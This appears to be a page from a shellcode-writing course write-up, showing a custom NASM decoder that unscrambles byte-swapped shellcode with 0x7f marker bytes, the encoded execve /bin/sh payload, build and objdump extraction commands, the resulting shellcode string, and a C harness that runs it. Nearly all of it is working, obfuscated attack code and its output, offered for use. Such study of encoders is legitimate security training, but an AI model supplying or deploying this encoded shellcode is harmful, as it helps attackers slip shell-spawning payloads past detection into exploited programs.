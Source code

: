 ```nasm
	mov cl,2			; location of next expected insert byte

decode:
	cmp byte [esi+ecx], 0x7f	; should another swap occur?
	jne done			; jump out of loop
	mov al, [esi+ecx-2]		; save first byte in pair
	mov bl, [esi+ecx-1]		; save second byte in pair
	mov [edi], bl			; swap byte
	mov [edi+1], al			; swap byte
	add ecx, 3			; the next 0x7f byte should be 3 bytes ahead
	add edi, 2			; memory offset for next swap save
	jmp short decode		; jump back to the beginning of the loop

done:
	jmp short EncodedShellcode

call_shellcode:
	call decoder
	EncodedShellcode: db 0xc0,0x31,0x7f,0x68,0x50,0x7f,0x2f,0x2f,0x7f,0x68,0x73,0x7f,0x2f,0x68,0x7f,0x69,0x62,0x7f,0x89,0x6e,0x7f,0x50,0xe3,0x7f,0xe2,0x89,0x7f,0x89,0x53,0x7f,0xb0,0xe1,0x7f,0xcd,0x0b,0x7f,0x7f,0x80,0x7f
```

### Compiling, testing, and emmiting shellcode for use
```bash
[sengen@manjaro-x86 /]$ nasm -f elf32 ./swapsert-decoder.nasm -o swapsert-decoder.o
[sengen@manjaro-x86 /]$ ld -z execstack -N ./swapsert-decoder.o -o swapsert-decoder
```

Execute our assembly code to ensure we get our bash shell
```bash
[sengen@manjaro-x86 /]$ ./swapsert-decoder
sh-4.4$
```

We can now extract the shellcode bytes for use in our test C program
```bash
[sengen@manjaro-x86 /]$ objdump -d ./swapsert-decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x28\x5e\x31\xdb\x31\xc9\xf7\xe1\x89\xf7\xb1\x02\x80\x3c\x0e\x7f\x75\x15\x8a\x44\x0e\xfe\x8a\x5c\x0e\xff\x88\x1f\x88\x47\x01\x83\xc1\x03\x83\xc7\x02\xeb\xe5\xeb\x05\xe8\xd3\xff\xff\xff\xc0\x31\x7f\x68\x50\x7f\x2f\x2f\x7f\x68\x73\x7f\x2f\x68\x7f\x69\x62\x7f\x89\x6e\x7f\x50\xe3\x7f\xe2\x89\x7f\x89\x53\x7f\xb0\xe1\x7f\xcd\x0b\x7f\x7f\x80\x7f"
```

Add our shellcode to our test C program and ensure it runs
```c
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\xeb\x28\x5e\x31\xdb\x31\xc9\xf7\xe1\x89\xf7\xb1\x02\x80\x3c\x0e\x7f\x75\x15\x8a\x44\x0e\xfe\x8a\x5c\x0e\xff\x88\x1f\x88\x47\x01\x83\xc1\x03\x83\xc7\x02\xeb\xe5\xeb\x05\xe8\xd3\xff\xff\xff\xc0\x31\x7f\x68\x50\x7f\x2f\x2f\x7f\x68\x73\x7f\x2f\x68\x7f\x69\x62\x7f\x89\x6e\x7f\x50\xe3\x7f\xe2\x89\x7f\x89\x53\x7f\xb0\xe1\x7f\xcd\x0b\x7f\x7f\x80\x7f";

main()
{
    printf("Shellcode Length:  %d\n", strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```
